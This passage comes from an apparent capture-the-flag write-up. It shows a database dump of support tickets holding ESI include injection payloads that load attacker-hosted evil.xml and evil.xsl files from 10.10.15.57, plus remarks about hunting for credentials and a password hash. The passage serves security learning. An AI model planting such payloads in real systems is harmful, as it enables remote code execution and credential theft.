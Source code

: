 I found the users table which may or may not have new creds in it...

```text
mysql> select * from tickets;
+----------+-----------+------------------------------------------------------------------------------------------------------------------------+--------+
| id       | title     | description                                                                                                            | status |
+----------+-----------+------------------------------------------------------------------------------------------------------------------------+--------+
| TKT-4178 | ping test | "<esi:include src="http://10.10.15.57:9088/evil98.xml" stylesheet="http://10.10.15.57:9088/evil98.xsl"></esi:include>" | open   |
| TKT-4567 | evil      | "<esi:include src="http://10.10.15.57:9088/evil.xml" stylesheet="http://10.10.15.57:9088/evil.xsl"></esi:include>"     | open   |
| TKT-0987 | evil      | "<esi:include src="http://10.10.15.57:9088/evil.xml" stylesheet="http://10.10.15.57:9088/evil.xsl"></esi:include>"     | open   |
| TKT-9876 | evil1     | "<esi:include src="http://10.10.15.57:9088/evil1.xml" stylesheet="http://10.10.15.57:9088/evil1.xsl"></esi:include>"   | open   |
| TKT-8765 | evil2     | "<esi:include src="http://10.10.15.57:9088/evil2.xml" stylesheet="http://10.10.15.57:9088/evil2.xsl"></esi:include>"   | open   |
+----------+-----------+------------------------------------------------------------------------------------------------------------------------+--------+
9 rows in set (0.00 sec)
```

I also found a list of the tickets that I submitted earlier...the lazy admin still hadn't gotten around to helping me with my issues!

![](../../.gitbook/assets/22-login.php-crypt.png)

for the password "hash" I found, the login.php contained this line which explained it:
